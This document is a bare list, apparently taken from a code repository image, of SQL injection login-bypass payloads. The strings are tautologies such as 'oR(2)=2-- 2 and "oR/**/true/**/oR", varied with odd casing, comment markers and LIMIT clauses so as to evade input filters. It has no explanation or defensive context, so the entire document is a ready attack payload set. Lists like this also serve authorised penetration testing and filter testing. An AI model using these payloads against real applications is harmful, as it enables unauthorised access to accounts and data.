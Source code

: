 ```
'oR/**/2=2/**/oR'
'oR(2)=2-- 2
'oR(2)=2#
'oR(2)=2/*
'oR(2)=(2)oR'
'oR'2'='2' LimIT 1-- 2
'oR'2'='2' LimIT 1#
'oR'2'='2' LimIT 1/*
'oR(2)=(2)LimIT(1)-- 2
'oR(2)=(2)LimIT(1)#
'oR(2)=(2)LimIT(1)/*
"oR"2"="2
"oR"2"="2"oR"
"oR"2"="2"-- 2
"oR"2"="2"#
"oR"2"="2"/*
"oR 2=2-- 2
"oR 2=2#
"oR 2=2/*
"oR 2=2 oR"
"oR/**/2=2-- 2
"oR/**/2=2#
"oR/**/2=2/*
"oR/**/2=2/**/oR"
"oR(2)=2-- 2
"oR(2)=2#
"oR(2)=2/*
"oR(2)=(2)oR"
"oR"2"="2" LimIT 1-- 2
"oR"2"="2" LimIT 1#
"oR"2"="2" LimIT 1/*
"oR(2)=(2)LimIT(1)-- 2
"oR(2)=(2)LimIT(1)#
"oR(2)=(2)LimIT(1)/*
'oR true-- 2
'oR true#
'oR true/*
'oR true oR'
'oR(true)-- 2
'oR(true)#
'oR(true)/*
'oR(true)oR'
'oR/**/true-- 2
'oR/**/true#
'oR/**/true/*
'oR/**/true/**/oR'
"oR true-- 2
"oR true#
"oR true/*
"oR true oR"
"oR(true)-- 2
"oR(true)#
"oR(true)/*
"oR(true)oR"
"oR/**/true-- 2
"oR/**/true#
"oR/**/true/*
"oR/**/true/**/oR"
'oR'2'LiKE'2
'oR'2'LiKE'2'-- 2
'oR'2'LiKE'2'#
'oR'2'LiKE'2'/*
'oR'2'LiKE'2'oR'
```